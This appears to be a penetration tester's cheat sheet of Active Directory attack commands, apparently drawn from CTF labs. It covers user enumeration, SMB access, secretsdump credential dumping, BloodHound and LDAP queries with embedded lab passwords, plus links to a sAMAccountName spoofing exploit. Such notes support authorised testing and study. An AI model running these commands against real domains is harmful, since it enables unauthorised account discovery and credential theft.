# Active Directory

### Ways to enumerate users

- kerbrute
```bash
$ kerbrute userenum -d domain --dc 10.11.12.13 user.lst
```

- rpcclient
```bash
$ rpcclient -U "" 10.11.12.13
rpcclient> enumdomusers
```

- RID bruteforce attack
```bash
$ impacket-lookupsid domain/guest@10.11.12.13
```

### SMB client
```bash
$smbclient //$IP/NETLOGON -U "vulnnet-rst/t-skid" "tj072889*"
```

### LSASS dump
- Requires username and password
```bash
secretsdump.py 'holo.live/watamet:Nothingtoworry!@10.200.110.31'
```

### Bloodhound
```bash
$ bloodhound-python -u <user> -p <pass> -ns 10.5.1.1 -d domain.local --dns-tcp
```

### LDAP Search
```bash
$ ldapsearch -h 172.21.48.1 -p 389 -x -w Secret123 -D localadmin@windcorp.htb -b 'dc=windcorp,dc=htb'


# bind (-b) examples
dc=foo,dc=com
cn=Users,dc=domain,dc=tld
```

### sAMAccountName spoofing
- Not automated script, explains step by step with PowerShell commands
```
https://cloudbrothers.info/exploit-kerberos-samaccountname-spoofing/#automated-kill-chain
```

- Automated script
```
https://github.com/WazeHell/sam-the-admin
```